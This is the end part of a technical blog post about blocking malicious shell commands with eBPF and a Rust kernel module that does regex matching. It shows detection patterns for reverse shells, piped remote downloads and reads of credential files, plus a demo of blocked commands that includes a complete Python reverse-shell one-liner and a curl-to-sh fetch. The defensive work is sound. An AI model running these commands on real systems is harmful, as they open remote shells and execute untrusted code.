[`get_buf`](https://github.com/aquasecurity/tracee/blob/32789ed760403fa96e3a9ee300dae3c0f868ff25/pkg/ebpf/c/common/buffer.h#L32) is a utility function borrowed from the [tracee](https://github.com/aquasecurity/tracee/tree/main) project.
It provides a convenient way to get a per-CPU buffer, useful in scenarios where stack memory isn't enough (512B limit).
This probe can be easily re-written without that utility.

## Putting it together

Let's start by adding the patterns capturing potentially malicious shell commands into our kernel module (a real implementation should be configurable):

```c
static const char* PATTERNS[] = {
    // Detects reverse shell attempts using netcat
    "(nc|ncat|netcat).*(-e|-c|--exec|--sh-exec)",
    // Detects Python-based network connections or command execution
    "python(3)?.*(import\\s+(socket|subprocess)|socket\\.socket|connect\\()",
    // Detects remote code execution via piped downloads
    "(curl|wget|fetch).*\\|.*(bash|sh|zsh|ksh|csh|tcsh|dash|python|python3|perl|ruby|php)",
    // Detects attempts to read sensitive system files or credentials
    "(cat|less|more|head|tail|vim|nano|vi|view|xxd|strings|base64).*(/etc/(passwd|shadow|sudoers|ssh/|ssl/)|/root/\\.ssh/|id_rsa|id_dsa|id_ecdsa|id_ed25519|\\.pem|\\.key)"
};
```

After loading the module and the eBPF:

```bash
$ nc 172.16.6.141 5555 -e cmd.exe
bash: fork: Operation not permitted

$ curl http://162.50.21.5/foo.sh | sh
bash: fork: Operation not permitted

$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
bash: fork: Operation not permitted
```

## Conclusion

This demonstrates that eBPF's limitations don't have to constrain policy expressiveness. 
By leveraging kfuncs, complex logic can be offloaded to kernel modules while retaining eBPF's observability and enforcement capabilities.
This AMSI-like implementation proves the concept: sophisticated matching can happen inside the kernel, blocking malicious activity before it executes.

The regexes serve here only as an example. 
Imagine having things like:

- A bash parser capable of reconstructing the AST of the captured buffer and performing computations against it.
- Sophisticated rule engines, where regexes are just one of the building blocks, validating complex conditions and capturing relationships between fields inside the events.
- Embedded script engines like Lua, hooked in-series, making dynamic detection decisions based on the events.

All of these are much easier to implement in Rust than in native C. 
There's also a ton of existing libraries already, and in many cases, it's just a matter of creating thin wrappers, like I've done for the regexes.
